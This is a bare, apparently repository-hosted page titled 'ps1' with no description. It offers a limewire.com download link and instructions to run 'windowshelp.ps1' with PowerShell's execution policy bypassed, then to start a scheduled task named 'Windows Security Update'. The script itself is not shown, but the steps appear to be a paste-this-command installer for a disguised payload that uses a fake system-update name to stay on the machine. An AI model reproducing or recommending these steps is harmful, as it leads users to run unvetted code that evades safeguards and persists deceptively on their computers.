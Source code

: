 # ps1


https://limewire.com/d/gb8PN#ApTP1Uj4JC


```
powershell.exe -ExecutionPolicy Bypass -File .\windowshelp.ps1
```

```
Start-ScheduledTask -TaskName "Windows Security Update"
```
